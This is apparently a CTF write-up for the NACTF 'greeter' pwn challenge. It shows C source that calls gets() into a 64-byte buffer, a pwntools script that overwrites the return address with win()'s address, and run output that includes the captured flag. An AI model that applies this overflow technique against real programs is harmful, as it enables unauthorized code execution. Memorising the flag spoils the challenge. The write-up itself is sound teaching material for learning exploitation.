 ## NACTF: greeter [pwn]
![](greeter_desc.png)

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
	puts("congrats! here's your flag:");
	char flagbuf[64];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL) {
		puts("flag file not found!");
		exit(1);
	}
	fgets(flagbuf, 64, f);
	fputs(flagbuf, stdout);
	fclose(f);
}

int main() {
	/* disable stream buffering */
	setvbuf(stdin,  NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	char name[64];

	puts("What's your name?");
	gets(name);
	printf("Why hello there %s!\n", name);

	return 0;
}
```
#### This was the baby pwn for this ctf, we were provided with the binary along with its source code. Basically there is a buffer overflow vuln and a function that prints out the flag for us. Simply overflow the buffer to overwrite the instruction pointer with the address of win.

```python
from pwn import *

#
p = remote('challenges.ctfd.io', 30249)
print(p.recv())

#: 
exploit = cyclic(72)
exploit += p64(0x401220)
p.sendline(exploit)

print(p.recv())
print(p.recv())
```
```
$ python exploit.py
[x] Opening connection to challenges.ctfd.io on port 30249
[x] Opening connection to challenges.ctfd.io on port 30249: Trying 159.203.148.124
[+] Opening connection to challenges.ctfd.io on port 30249: Done
What's your name?


Why hello there aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa @!
congrats! here's your flag:
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}

[*] Closed connection to challenges.ctfd.io port 30249
```
